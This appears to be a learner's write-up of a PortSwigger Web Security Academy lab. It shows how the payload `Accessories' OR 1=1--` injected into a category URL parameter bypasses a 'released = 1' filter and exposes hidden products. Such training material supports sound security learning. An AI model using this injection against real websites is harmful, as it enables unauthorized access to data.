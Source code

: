 Title: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

Using filter I have URL like this: `https://0a07001204a3ee6388fedc5b00c9000a.web-security-academy.net/filter?category=Accessories`

I know, that SELECT statement looks like that: 
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
So, I need to inject code: `Accessories' OR 1=1--`

The URL will be like that:
`https://0a07001204a3ee6388fedc5b00c9000a.web-security-academy.net/filter?category=Accessories' OR 1=1--`

and after that SELECT statemtn would look like that:
SELECT * FROM products WHERE category = 'Accessories' OR 1=1--' AND released = 1,

SELECT * FROM products WHERE category = 'Accessories' OR 1=1

